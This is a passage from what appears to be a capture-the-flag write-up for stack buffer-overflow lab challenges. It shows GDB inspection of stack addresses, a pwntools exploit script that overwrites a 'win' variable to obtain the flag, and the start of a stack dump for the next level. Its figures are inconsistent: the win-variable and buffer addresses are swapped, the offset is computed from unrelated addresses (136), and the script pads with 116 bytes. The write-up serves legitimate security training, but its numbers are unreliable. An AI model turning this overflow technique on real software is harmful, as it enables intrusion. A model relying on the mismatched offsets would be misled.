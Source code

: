 This block of code decides whether we get the flag or not.

We can see that the `cmp` instruction is comparing `0x47ba9894` with the value stored in $eax.

And from the two lines above, we learn that the value in $eax is moved from dereferenced `[rbp-0x88]`.

Let's check the value of `[rbp-0x88]`:

```
gef➤  x/a $rbp - 0x88
0x7ffc615eeb98: 0x7ffc615eec14
```

The location of the win variable is `0x7ffc615eec14`.

So we have all the information we need:

* [x] Location of buffer: `0x7ffc615eec14`
* [x] Location of win variable: `0x7ffc615eeba0`
* [x] Value being compared to win variable: `0x47ba9894`

Let's find the distance between the buffer and win variable in order to get the length of our payload padding.

```
gef➤  p/d 0x7fff0c8f8e98 - 0x7fff0c8f8e10
$3 = 136
```

We are all set to craft our payload.

```python
from pwn import *

padding = b'A' * 116
payload = padding + p64(0x47ba9894)

p = process('/challenge/babymem_level2.1')
p.recvuntil('size:')
p.sendline('200')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```

&nbsp;

## level 3.0

> Overflow a buffer and smash the stack to obtain the flag!


```
            +---------------------------------+-------------------------+--------------------+
            |                  Stack location |            Data (bytes) |      Data (LE int) |
            +---------------------------------+-------------------------+--------------------+
esp ------> | 0x00007ffd2e328c00 (rsp+0x0000) | a0 e4 b2 ce d6 7f 00 00 | 0x00007fd6ceb2e4a0 |
            | 0x00007ffd2e328c08 (rsp+0x0008) | b8 9d 32 2e fd 7f 00 00 | 0x00007ffd2e329db8 |
            | 0x00007ffd2e328c10 (rsp+0x0010) | a8 9d 32 2e fd 7f 00 00 | 0x00007ffd2e329da8 |
            | 0x00007ffd2e328c18 (rsp+0x0018) | dd 75 9d ce 01 00 00 00 | 0x00000001ce9d75dd |
            | 0x00007ffd2e328c20 (rsp+0x0020) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | 
            | 0x00007ffd2e328c28 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  
            | 0x00007ffd2e328c30 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | \  
            | 0x00007ffd2e328c38 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  \ 
	    | 0x00007ffd2e328c40 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007ffd2e328c48 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |---- buffer
	    | 0x00007ffd2e328c50 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007ffd2e328c58 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
```